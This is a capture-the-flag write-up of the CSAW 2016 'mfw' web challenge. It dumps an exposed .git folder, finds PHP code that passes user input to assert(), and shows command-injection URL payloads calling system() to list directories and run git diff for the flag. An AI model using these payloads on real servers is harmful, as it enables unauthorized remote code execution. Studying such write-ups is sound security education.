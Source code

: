 # mfw (Web, 125pts)

## Problem

Hey, I made my first website today. It's pretty cool and web7.9.
http://web.chal.csaw.io:8000/

## Solution

We get simple website, build with PHP, Bootstrap and with Git. Url looks vulnerable for Local File Include and Directory Traversal, but couple of standards payloads returned only "Detected hacking attempt!" or "That file doesn't exist!" messages.  

![Screen caption](assets/mfw2.png)


### Digging into .git folder

Abandoned, readable .git folder is a gold mine. Access to one in this challenge wasn't restricted in any way, I could easily navigate through all folders and files using web browser:

![Git](assets/mfw3.png)

But I wanted source code to find out the way to exploit LFI or Directory Traversal, so with little help of my own tool, **diggit** (https://github.com/bl4de/security-tools/tree/master/diggit) I downloaded sources:

```
$ ./diggit.py -u http://web.chal.csaw.io:8000/ -t /Users/bl4de/hacking/ctf/2016/CSAW_CTF_2016/mfw -r true -o 7a0a66bbc50a8fdb83909b79c328bff4596f71ed
```

![diggit in action](assets/mfw6.png)

I checked the file ```flag.php``` (I found commented link to it earlier, when I was checking HTML source of website), but it does not contain anything interesting, except comment ```//TODO``` - and that was crucial information to find the solution of this challenge, but more on this later:


```php
<?php
// TODO
//$FLAG = '';
?>
```

### Source code static analysis

Next, I've started to poke around ```index.php``` and validation logic, trying to find the way to exploit it with some well crafted payload:

```php
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>

/*
	HTML code here, nothing special, no logic...
*/

<div class="container" style="margin-top: 50px">
	<?php
		require_once $file;
	?>
	
</div>
		
```

Unfortunately, I wasn't able to find any payload working in both assertions. Even if I could break first assertion and successfully insert Directory Traversal payload (like ```\.\./``` or ```.?/```), I got stuck with second assertion. 

When I stopped for a second to think about the right solution, I've started to think about one particular line:

```php
$file = "templates/" . $page . ".php";
```

```$page``` was used here directly from GET parameter, without any validation. String concatenation allows here to do anything, BEFORE any of following ```assert()``` calls.


I needed something powerful and something what returns its output without any additional functions like ```print()``` or ```echo``` (which is, in fact, not a function).

And ```system()``` was exactly what I was looking for (http://php.net/manual/en/function.system.php):

```
(PHP 4, PHP 5, PHP 7)
system — Execute an external program and display the output

```
So it was even better that LFI I was trying to find. I found much more powerful Remote Code Execution (RCE) and from now on I could do anything I wanted to.

### Exploiting Remote Code Execution with system()

My payloads were pretty simple. To execute ```ls -lA``` command in the root directory I've used this one:

```
http://web.chal.csaw.io:8000/?page='.system("cd ../../../; ls -lA;").'about
```

This causes server to create such line of code:

```php
$file = "templates/" . '.system("cd ../../../; ls -lA;").' . ".php";
```

As a result, I got this:

```
.dockerenv
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
That file doesn't exist!
```

**EDIT** Output from Command Execution actually comes from one or both lines with ```assert()``` calls (it depends on usage of "../" in payload and which assertion failed first), not from the first line with ```$page``` parameter as I thought. Thanks to Dinesh Kota for pointing this!



--
#### HINT

If you are able to display such output, use option 'View source' in your browser. This allows one to display text output with all white characters (tab, new line and so on) handled in the correct way.

Here's an output from previous payload directly in the browser tab (interpreted as regular HTML, which is very hard to read, not what we want to see):

![command as HTML](assets/output1.png)


And here's how it looks like when 'View source' option is used instead:

![command as HTML](assets/output2.png)

--

At this moment I thought I just needed to find ```flag.txt``` or similar file and just took 125 points home. I was wrong :)

I couldn't find anything what looks like legitimate file with flag. I was trying various ```find``` and ```grep``` combinations with plenty of false positive results - but there were no flag at all.

Then, I realized that comment I found earlier, in file called ```flag.php```: TODO.
Flag. **TODO**.
There was no flag **yet**!


### Playing with Git, again

I get back to Git. As I was able to execute any command, I went straight into website folder and checked status of the repository (this is what I put in address bar in Chromium):

```
view-source:http://web.chal.csaw.io:8000/?page='.system("cd /var/www/html/;git status;").'about
``` 

Bingo!



![git status](assets/mfw7.png)

```flag.php``` was modified, but no changes were added to commit and commited, so file I've downloaded earlier didn't contain newest changes.

The last one command put in browser's address bar finished the challenge:


```
view-source:http://web.chal.csaw.io:8000/?page='.system("cd /var/www/html/;git diff;").'about
```

And here we are:

![Flag](assets/mfw5.png)


The flag:

```php
<?php $FLAG="flag{3vald_@ss3rt_1s_best_a$$ert}"; ?>
```

![git diff FTW!!!](assets/gitdiff.png)

--

I had a lot of fun with this challenge, even if it was relatively simple. It contains a lot of obvious vulnerabilities like (potential) LFI with Directory Traversal and (fully exploitable) RCE, but in the end the solution turned into Git and some Git commands knowledge.

Thanks to CSAW Team for great CTF this year!

